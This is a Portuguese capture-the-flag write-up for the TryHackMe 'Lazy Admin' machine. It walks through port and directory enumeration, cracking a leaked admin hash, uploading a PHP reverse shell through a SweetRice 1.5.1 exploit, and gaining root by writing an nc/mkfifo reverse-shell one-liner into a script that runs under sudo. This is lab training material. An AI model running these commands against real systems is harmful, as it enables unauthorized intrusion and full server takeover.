 <b>Segue Writeup da maquina Lazy Admin Final do Try Hack Me


<b>Enumeração das portas com o NMAP 
  
```
┌──(xnv㉿kali)-[~]
└─$ nmap -A 10.10.49.240

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```

<b>Eumeração de arquivos e pastas com o WFUZZ
  
```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.49.240/FUZZ -t 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        375 L    968 W      11321 Ch    "http://10.10.49.240/"
000001027:   301        9 L      28 W       314 Ch      "content"
000002020:   200        375 L    968 W      11321 Ch    "index.html"
```
<b>Após encontrar a pasta "content", fiz uma nova enumeração das pastas colocando o content
  
```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.49.240/content/FUZZ -t 100
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        35 L     151 W      2198 Ch     "http://10.10.49.240/content/"
000000478:   301        9 L      28 W       317 Ch      "as"
000000505:   301        9 L      28 W       325 Ch      "attachment"
000000089:   301        9 L      28 W       322 Ch      "_themes"
000001991:   301        9 L      28 W       321 Ch      "images"
000002010:   301        9 L      28 W       318 Ch      "inc"
000002021:   200        35 L     151 W      2198 Ch     "index.php"
000002179:   301        9 L      28 W       317 Ch      "js"
```
<b>Depois de verificar as pastas e arquivos listados, encontrei um arquivo .sql 
  
![Capturar](https://user-images.githubusercontent.com/90646635/133702386-4aca21e1-f88d-4a3b-b77b-eceedbc6dd0b.PNG)

<b>Nesse arquivo .sql você irá encontrar um usuário e senha para logar na aplicação.
  
```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

<b>Para quebrar esse hash usei o "https://crackstation.net/", com o usuário e senha é só acessar a aplicação no url.
  
![2](https://user-images.githubusercontent.com/90646635/133703615-493a9493-20bf-421b-9af9-090b59e23e94.PNG)

  
<b>Logado vi que se tratava de uma aplicação chamada SweetRice com a versão 1.5.1, com essas informações fui caçar no "https://www.exploit-db.com/"
  
![3](https://user-images.githubusercontent.com/90646635/133704110-9ba96cc1-a21c-47aa-99b5-0d4be571cb21.PNG)

<b>O exploit vai fazer upload de um arquivo para o servidor, então coloquei uma Web Shell, mas o exploit pede algumas extensões especificas escolhi a .php5
  
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ mv php-reverse-shell.php php-reverse-shell.php5
```
<b>Então Vamos executar o Exploit, ele irá pedir as seguintes informações, URL , USERNAME , PASSWORD , FILE
  
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.49.240/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.49.240/content/attachment/php-reverse-shell.php5
```
  
Colocamos o netcat para ficar aguardando a Web Shell   
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ nc -lnvp 4455 
```
  
<b>Com a Web Shell no servidor e o netcat aguarando uma resposta, é só dar um Curl nela que será executada.
  
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ curl http://10.10.49.240/content/attachment/php-reverse-shell.php5
```
<b>E então temos uma Shell no servidor
  
![4](https://user-images.githubusercontent.com/90646635/133705881-0f406078-6a64-473a-a52a-52275830e835.PNG)
  
<b>E então pegamos a flag User 
  
```  
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{********************************}
```
  
<b> Para encontrar a flag Root, damos um 
  
```
www-data@THM-Chal:/home/itguy$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
<b> No arquivo backup.pl, mostra que ele executa um arquivo que está em /etc/
  
![5](https://user-images.githubusercontent.com/90646635/133706646-9251298c-0345-4556-abf0-b5c7411e4658.PNG)

<b> Então coloquei um reverse shell lá dentro já que eu tinha permissão para isso.

```
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.21 4445 >/tmp/f" > /etc/copy.sh
```
  
<b> Liguei outro netcat ouvindo a porta 4445
 
``` 
┌──(xnv㉿kali)-[~]
└─$ nc -lnvp 4445
```
  
<b>E executei o arquivo backup
  
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```
<b> E assim temos o usuario root, é só ler o arquivo root.txt
  
```
# cat /root/root.txt
THM{********************************}  
```
